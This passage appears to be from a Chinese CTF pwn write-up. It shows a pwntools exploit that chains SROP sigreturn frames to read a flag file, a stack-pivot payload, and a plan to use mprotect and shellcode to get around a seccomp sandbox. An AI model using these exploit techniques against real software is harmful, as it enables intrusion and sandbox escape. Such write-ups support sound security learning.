 ```python
syscall_ret=0x000000000040118a
ru("easyhack\n")

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_open
sigframe.rdi = bss+0x400
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = bss+0xf8+0x10
sigframe.rip = syscall_ret
sigframe1 = SigreturnFrame()
sigframe1.rax = constants.SYS_read
sigframe1.rdi = 3
sigframe1.rsi = bss+0x420
sigframe1.rdx = 0x50
sigframe1.rsp = bss+0xf8+0x10+0xf8+0x10+0x8
sigframe1.rip = syscall_ret
sigframe2 = SigreturnFrame()
sigframe2.rax = constants.SYS_write
sigframe2.rdi = 1
sigframe2.rsi = bss+0x420
sigframe2.rdx = 0x50
sigframe2.rsp = bss+0xf8+0x10+0xf8+0x10
sigframe2.rip = syscall_ret

#F8
payload=p64(mov_rax_15_ret)+p64(syscall_ret)+bytes(sigframe)+p64(0)+p64(mov_rax_15_ret)+p64(syscall_ret)+bytes(sigframe1)
payload+=p64(0)+p64(mov_rax_15_ret)+p64(syscall_ret)+bytes(sigframe2)
payload=payload.ljust(0x400,b"\x00")+b"flag\x00\x00\x00\x00"
sl(payload)
ru("Do u know what is SUID?")
#mydbg()
payload=b'a'*0x2a+p64(bss-0x8)+p64(leave_ret)
sl(payload)

p.interactive()
```

### Seccomp

跟上题大概逻辑一样，开的沙箱不一样，禁用了write，运行mprotect，那么利用srop 使用mprotect开辟rwx段，然后写shellcode， open 打开flag ，read 读入flag ，然后 逐个字节爆破flag。

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p)
	pause()
```